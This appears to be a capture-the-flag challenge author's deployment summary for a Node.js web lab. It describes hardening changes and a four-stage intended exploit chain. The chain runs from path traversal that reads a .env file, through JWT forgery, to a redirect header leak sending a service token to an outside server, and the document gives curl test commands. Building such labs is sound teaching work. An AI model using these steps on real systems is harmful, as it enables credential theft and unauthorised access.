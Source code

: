 # Production Deployment Summary

## Changes Made for Production Readiness

### 1. Documentation
- ✅ Created `SOLUTION.md` - Complete walkthrough with all exploits, secrets, and flags
  - Contains Stage 1-4 detailed exploitation steps
  - Includes all environment secrets and credentials
  - Added to `.gitignore` to prevent accidental commits
  
- ✅ Updated `README.md` - Clean public version
  - Removed all vulnerability details
  - Removed all hints and step-by-step instructions
  - Kept only essential setup and rules
  - No exposition of endpoints or attack vectors

### 2. Frontend Changes (`public/admin.html`)
- ✅ Removed "Get Admin Flag (FLAG1)" button
- ✅ Removed "Get Service Flag (FLAG2)" button
- ✅ Removed "Test Redirect Endpoint" helper button
- ✅ Removed "Check API Health" helper button
- ✅ Removed all placeholder text and hints
- ✅ Cleaned up form labels (no examples)
- ✅ Removed hint box entirely
- ✅ Simplified admin.js - kept only the core API request handler

### 3. Web Server (`web/app.js`)
- ✅ Removed verbose console logging on startup
- ✅ Removed env_loaded flag from `/healthz` endpoint
- ✅ Simplified `/api/admin-flag` response (no explanations)
- ✅ Kept JWT validation intact
- ✅ Kept service token forwarding in admin-request intact

### 4. API Server (`api/app.js`)
- ✅ Updated `/api/flag` to check Authorization header directly
- ✅ Removed example URLs from error messages
- ✅ Removed endpoint listing from `/api/health`
- ✅ Removed endpoint listing from `/` root endpoint
- ✅ Removed console logging from redirect endpoint
- ✅ Removed verbose startup logging
- ✅ Removed version info from responses

### 5. .gitignore
- ✅ Added `SOLUTION.md` to prevent distribution
- ✅ Added standard Node.js excludes
- ✅ Added IDE and OS excludes

## Progressive Gating (Anti-Cheese Protection)

### Stage 1: Path Traversal
- Players must extract `.env` file via `/download?path=.env`
- This reveals: `WEB_JWT_SECRET`, `SERVICE_TOKEN`, and flag hints

### Stage 2: JWT Forgery → Admin Access
- Players use extracted `WEB_JWT_SECRET` to forge admin JWT
- Only with valid JWT can they access:
  - `/admin` dashboard
  - `/api/admin-request` endpoint
  - `/api/admin-flag` endpoint (confirms FLAG1)

### Stage 3: Redirect Header Leak
- Only accessible from admin dashboard (requires Stage 2)
- Using `/api/admin-request`, they exploit `/api/redirect`
- CVE-2022-0235 leaks the `SERVICE_TOKEN` header

### Stage 4: Final Flag
- `/api/flag` requires valid `SERVICE_TOKEN` in Authorization header
- Only obtainable from Stage 3
- Returns FLAG2

**No cheesing possible**: FLAG2 requires valid SERVICE_TOKEN header, which cannot be obtained without exploiting the redirect in the admin client.

## Pre-Production Checklist

Before deploying:

- [ ] Delete `SOLUTION.md` from production environment
- [ ] Verify `.gitignore` includes `SOLUTION.md`
- [ ] Update environment variables with production secrets:
  - `WEB_JWT_SECRET` - Generate strong random value
  - `SERVICE_TOKEN` - Generate strong random value
  - `FLAG1` - Set to unique flag
  - `FLAG2` - Set to unique flag
- [ ] Test complete exploitation flow locally
- [ ] Verify no hints appear anywhere
- [ ] Verify all console logs are production-ready
- [ ] Test that Stage 1 players cannot access FLAG2
- [ ] Test that forged JWT without Stage 1 fails

## Local Testing Commands

```bash
# Test Stage 1: Path Traversal
curl "http://localhost:8080/download?path=.env"

# Extract WEB_JWT_SECRET and SERVICE_TOKEN from output
# Then create JWT with extracted secret and test Stage 2

# Test Stage 3: Admin Request (with valid JWT)
# Use browser DevTools or curl with cookie to POST to /api/admin-request
# with path: /api/redirect?to=http://your-server.com

# Verify Stage 4: Check that FLAG2 requires SERVICE_TOKEN
curl "http://localhost:3001/api/flag"  # Should get 401
curl "http://localhost:3001/api/flag" \
  -H "Authorization: Bearer invalid" # Should get 403
curl "http://localhost:3001/api/flag" \
  -H "Authorization: Bearer service-token-123" # Should work locally
```

## Files Modified

1. `public/admin.html` - Removed all hints and helper buttons
2. `web/app.js` - Removed debug logging, simplified responses
3. `api/app.js` - Removed debug logging, proper token validation
4. `README.md` - Clean public version
5. `.gitignore` - Added SOLUTION.md exclusion
6. `SOLUTION.md` - NEW: Complete solution guide (DO NOT DISTRIBUTE)
